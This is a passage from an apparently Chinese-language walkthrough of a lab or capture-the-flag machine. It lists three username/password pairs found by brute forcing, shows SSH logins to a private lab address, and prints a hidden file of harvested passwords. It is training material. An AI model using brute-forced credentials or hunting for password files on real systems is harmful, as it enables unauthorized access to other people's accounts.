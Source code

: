 ![image-20220322171144024](https://gitee.com/xxb667/img/raw/master/img/image-20220322171144024.png)

爆破出来3个用户可用

```
login: chandlerb   	password: UrAG0D!
login: joeyt   		password: Passw0rd
login: janitor   	password: Ilovepeepee
```

## 3.2 ssh登录

依次对上面的3个用户进行登录

```
ssh chandlerb@192.168.81.145
```

![image-20220322171430975](https://gitee.com/xxb667/img/raw/master/img/image-20220322171430975.png)

```
ssh joeyt@192.168.81.145
```

![image-20220322172036906](https://gitee.com/xxb667/img/raw/master/img/image-20220322172036906.png)

```
ssh janitor@192.168.81.145
```

查看隐藏文件

```
ls -la
```

![](https://gitee.com/xxb667/img/raw/master/img/image-20220322172316096.png)



查看隐藏的内容

```
cd .secrets-for-putin
cat passwords-found-on-post-it-notes.txt
```

文件的内容为：

```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

![image-20220322172529948](https://gitee.com/xxb667/img/raw/master/img/image-20220322172529948.png)
